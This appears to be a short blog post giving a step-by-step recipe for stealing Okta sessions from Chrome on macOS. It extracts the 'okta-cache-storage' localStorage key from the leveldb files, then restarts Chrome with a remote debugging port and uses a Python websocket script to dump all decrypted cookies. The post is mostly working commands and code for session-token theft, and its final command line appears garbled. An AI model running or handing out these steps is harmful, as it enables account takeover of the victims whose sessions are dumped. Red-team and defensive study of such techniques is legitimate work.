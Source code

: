 ```yaml
---
layout: post
title:  "Dumping Okta Sessions in Chrome"
date:   2024-11-17 03:00:00 -0600
categories: 
---
```


# LocalStorage

Google Chrome (macOS) localStorage is saved on the filesystem in the leveldb file: `/Users/<user>/Library/Application Support/Google/Chrome/Default/Local Storage/leveldb`.

To dump localStorage:
* `git clone https://github.com/rdreher/chromeStorageDump`
* Avoid a file lock, by first copying leveldb to /tmp
* `cp -R "/Users/<user>/Library/Application Support/Google/Chrome/Default/Local Storage/leveldb" "/tmp/leveldb"`
* `node chromeStorageDump.js -k okta-cache-storage "/tmp/leveldb"`

# Cookies

Google Chrome (macOS) cookies are saved in an encrypted SQLite database with the key saved in the keychain. Unencrypted cookies can still be fetch by attaching a remote chrome debugger. This technique requires existing Chrome browsers to be restarted with the `--remote-debugging-port` flag. 

* `killall Google\ Chrome`
* `/Applications/Google\ Chrome.app/Contents/MacOS/Google\ Chrome --remote-debugging-port=9222 --user-data-dir="/Users/<user>/Library/Application Support/Google/Chrome" --restore-last-session`

The following `/json` endpoint provides a list of websocket addresses. 
* `curl http://localhost:9222/json`

Using a websocket client, connect to the correct address to reveal the unencrypted cookie in JSON format.

* `pip3 install websocket`
* `pip3 install websocket-client`

#### **`ripWCMN.py`**
```python
import websocket
ws = websocket.WebSocket()
ws.connect("ws://localhost:9222/devtools/page/85976D59050BFEFDBA48204E3D865D00", suppress_origin=True)
ws.send('{\"id\": 1, \"method\": \"Network.getAllCookies\"}')
print(ws.recv())
```

* `python3 rip ripWCMN.py  | jq -c '.result.cookies[].name="idx"'`

Credit: Justin Bui and @mangopdf

### References:
* https://www.cyberark.com/resources/threat-research-blog/the-current-state-of-browser-cookies
* https://gist.github.com/creachadair/937179894a24571ce9860e2475a2d2ec
* https://slyd0g.medium.com/debugging-cookie-dumping-failures-with-chromiums-remote-debugger-8a4c4d19429f
* https://posts.specterops.io/hands-in-the-cookie-jar-dumping-cookies-with-chromiums-remote-debugger-port-34c4f468844e